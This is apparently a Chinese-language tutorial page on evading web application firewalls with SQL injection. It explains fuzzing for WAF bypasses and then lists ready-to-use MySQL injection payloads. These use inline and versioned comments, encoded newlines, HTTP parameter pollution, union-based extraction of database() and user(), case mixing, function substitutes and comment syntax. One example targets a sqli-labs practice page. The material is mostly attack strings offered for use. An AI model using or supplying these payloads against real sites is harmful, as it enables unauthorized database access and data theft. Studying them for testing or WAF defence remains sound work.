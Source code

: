 ## 绕过WAF

根据WAF的本质我们就可以知道，绕过WAF，其实最本质的就是绕过WAF对应的正则表达式，通过相应的注释符，让我们相应的SQL语句仍然可以执行，并且可以绕过相应的WAF。

因为现在的WAF太多了，我们不能只研究一种WAF，我们可以研究一种方法，通过这种方法我们可以能够更好的构建出一些绕过相应WAF的payload。而这种方法就是Fuzz方法。这种暴力破解的方法是最好构建出payload的方法。

因为一些payload我们不可能一个一个的去试，这样太麻烦了，所以我们可以根据思路去构建出一些payload然后去Fuzz。

## 部分Bypass Sqlinject Payload

```mysql
id=1 union/*%00*/%23a%0A/*!/*!select 1,2,3*/;%23

id=-1 union/*%00*/%23a%0A/*!/*!select% 1,database%23x%0A(),3*/;%23

id=-1 union /*!44509select*/ 1,2,3%23

id=-1 union /*!44509select*/ 1,%23x%0A/*!database*/(),3%23id=1/**&id=-1%20union%20select%201,2,3%23*/ #这个是HTTP污染的注入

id=-1 %20union all %0a select%201,2,3%23 # 这个是union 与 union all的区别，union是自动压缩结果集中的重复结果，union all是不压缩结果

-1 %20union all%23%0a select 1,%230%0Adatabase/**/(),3%23
http://192.168.132.132/mypage/sqli-labs/Less-2/?id=-1%20union%20all%20select%201,2,3
```

注：这些Payload中的空格可以使用%20来代替

## 根据上面的图片写的Payload

### 应用层

#### 大小写/关键字替换

```mysql
id=1 UnIoN/**/SeLeCT 1,user() # 这种现在一般都不能使用了
Hex() bin() 等价于 ascii()
Sleep() 等价于 benchmark()
Mid()substring() 等价于 substr()
@@user 等价于 User()
@@Version 等价于 version()
```

#### 各种编码

大小写，URL，hex（十六进制），等

#### 注释使用

`//`，`--    `，`--+`，`#`，`/**/`，`+`，`:%00`，`/!**/`
